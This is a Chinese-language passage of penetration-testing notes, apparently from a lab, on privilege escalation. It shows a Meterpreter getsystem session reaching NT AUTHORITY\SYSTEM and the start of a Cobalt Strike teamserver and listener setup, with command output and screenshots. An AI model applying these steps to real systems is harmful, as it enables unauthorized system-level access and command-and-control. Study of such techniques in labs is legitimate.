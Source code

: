 
## 权限提升

### 法一：MSF

```
meterpreter > getuid
Server username: GOD\Administrator
meterpreter > getsystem
...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

### 法二：使用CS模块 (含渗透)

先将CS服务端开起来

```shell
┌──(root㉿kali)-[/home/kali/Desktop/csrun]
└─# ./teamserver  
[*] Generating X509 certificate and keystore (for SSL)
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
[*] ./teamserver <host> <password> [/path/to/c2.profile] [YYYY-MM-DD]

        <host> is the (default) IP address of this Cobalt Strike team server
        <password> is the shared password to connect to this server
        [/path/to/c2.profile] is your Malleable C2 profile
        [YYYY-MM-DD] is a kill date for Beacon payloads run from this server

                                                                                     
┌──(root㉿kali)-[/home/kali/Desktop/csrun]
└─# ./teamserver 192.168.220.137 123456
[*] Will use existing X509 certificate and keystore (for SSL)
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
[+] Team server is up on 0.0.0.0:50050
[*] SHA256 hash of SSL cert is: b72145ea2b81b84481d743de0a082e74bd6a942fd5ba06cc35cc35dc8804b90d

```

然后打开CS

![image-20220812193821408](./1.assets/image-20220812193821408.png)

![image-20220812193829530](./1.assets/image-20220812193829530.png)

创建监听器

> 两个IP都填kali的IP就行

![image-20220813012832949](./1.assets/image-20220813012832949.png)
